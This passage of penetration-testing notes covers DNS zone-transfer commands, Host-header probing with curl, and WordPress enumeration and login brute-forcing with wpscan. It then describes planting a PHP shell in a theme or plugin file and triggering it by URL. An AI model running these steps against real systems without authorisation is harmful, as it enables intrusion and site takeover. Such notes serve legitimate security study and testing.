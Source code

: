 If the config for dns allows transfer from any ip then we can abuse and dump all the dns record.
 we can use dig for this

 > dig axfr masterdomainname.com @IPADDRESS

 or 

 > host -t axfr masterdomain.com IPADDRESS 



#  Get Valid domain name 

If we are approaching a system and dont know its domain name ,we can try to retreive it from server itself

First  use a valid header to see the response

> curl -H 'Host: IP' "http://IP/'"

Now use invalid host to see if server gives us an error

> curl -H 'Host: http://IP' "http://IP/'"


# CMS

## Wordpress

if we see a wordpress site then use wpscan to find any vulnerbale plugins or enumurate users or bruteforce

**Basic usage**

> wpscan --url=ip

**USer enumuration on wordpress**

> wpscan --url=ip --enumerate u

**Wordpress login bruteforce**

we can also specify usernames list or comma seperated usernames

> wpscan --url=ip --usernames=username  --passwords=wordlist.txt


-  if we managed to login than go to appearnce ,edit theme and paste a php shellcode in 404.php or any other template file

- Then we can trigger our code by goint to that template file in following path

>  `http://url/wp-content/themes/themename/file.php`
 
 - if themes cannot  be edited we can tr to edit plugins
 - Then trigger with this path
 > `http:/url/wp-content/plugins/editedfile.php`
 
 
## Joomla
